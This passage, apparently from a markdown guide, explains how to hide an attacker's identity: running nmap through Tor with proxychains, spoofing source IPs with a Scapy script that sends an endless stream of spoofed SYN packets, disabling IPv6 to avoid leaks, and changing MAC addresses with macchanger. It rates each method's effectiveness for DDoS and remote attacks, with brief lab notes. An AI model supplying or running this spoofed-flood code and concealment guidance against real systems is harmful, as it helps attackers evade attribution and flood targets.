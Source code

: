      Run tools through Tor:

     ```bash
     proxychains nmap -sT <target_IP>
     ```

- **Effectiveness**: Very high for anonymity, but slow for DDoS due to Tor’s latency. Not ideal for high-volume attacks.
- **Lab Note**: Set up a Tor relay in your lab to simulate anonymity without real-world Tor usage.

#### Method 3: IP Spoofing

- **How It Works**: Forge the source IP in packets to make it appear as if they come from another address. Useful for attacks like DNS amplification.
- **Tools**: Scapy or `hping3`.
- **Example with Scapy**:
  ```python
  from scapy.all import *
  target_ip = "<target_IP>"
  spoofed_ip = "192.168.1.100"  # Fake IP
  packet = IP(src=spoofed_ip, dst=target_ip)/TCP(dport=80, flags="S")
  send(packet, loop=1, verbose=0)
  ```
- **Effectiveness**: High for one-way attacks (e.g., UDP floods, amplification), but ineffective for TCP attacks requiring a handshake (e.g., HTTP floods) since responses go to the spoofed IP.
- **Lab Note**: Test in a lab with a target VM to see how spoofed packets appear in `tcpdump`.

#### IPv6 Consideration

- If the target uses IPv6, ensure your tools support it (e.g., Scapy). Disable IPv6 on your Kali VM to avoid leaks:
  ```bash
  sudo sysctl -w net.ipv6.conf.all.disable_ipv6=1
  ```

### b. Hiding Your MAC Address

The MAC address identifies your network interface at the data link layer. It’s only visible on the same local network, so it’s less critical for remote attacks but still relevant in lab setups.

#### Method: MAC Spoofing

- **How It Works**: Change your network interface’s MAC address to a random or fake one.
- **Tool**: `macchanger` in Kali.
- **Setup**:
  1. Check current MAC:
     ```bash
     ifconfig eth0
     ```
  2. Install and change MAC:
     ```bash
     sudo apt-get install macchanger
     sudo ifconfig eth0 down
     sudo macchanger -r eth0  # Random MAC
     sudo ifconfig eth0 up
     ```
  3. Verify new MAC:
     ```bash
     macchanger -s eth0
     ```
- **Effectiveness**: High for local network anonymity. Not relevant for internet-based attacks since MAC addresses don’t leave the local network.
- **Lab Note**: Test in a lab with multiple VMs on a virtual network to see how MAC spoofing affects packet capture (e.g., with Wireshark).
